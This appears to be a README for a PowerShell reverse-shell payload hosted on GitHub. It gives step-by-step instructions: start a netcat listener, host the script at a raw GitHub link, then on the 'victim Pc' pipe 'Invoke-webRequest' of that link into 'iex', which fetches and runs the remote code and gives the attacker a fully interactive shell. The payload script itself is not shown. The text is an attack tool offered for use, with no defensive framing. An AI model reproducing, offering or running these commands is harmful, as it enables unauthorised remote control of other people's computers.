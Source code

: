 # INSTRUCTIONS : -<br> 
<br> 
1.) Use netcat to setup a listener `nc -nlvp 'port'`. This will start a listener, make sure the port is accessible over the internet and allows inbound connection.<br> 
<br> 
2.) Upload the script on github or somewhere to get a raw link of the payload like `https://raw.githubusercontent.com/anonymous300502/powershell_payload/main/powershell_reverse.ps1`.<br>
<br> 
3.) On the victim Pc open powershell and run `Invoke-webRequest "https://raw.githubusercontent.com/anonymous300502/powershell_payload/main/powershell_reverse.ps1" | iex`. Replace this link with your link.<br> 
<br> 
You will get a connection on your netcat with a fully interactive shell.<br><br><br> 
<br> 
<br> 
(UPDATES ARE UNDERWAY TO ADD FEATURES SUCH AS USING [TAB] FOR AUTO_COMPLETION AND OTHER COOL STUFF.
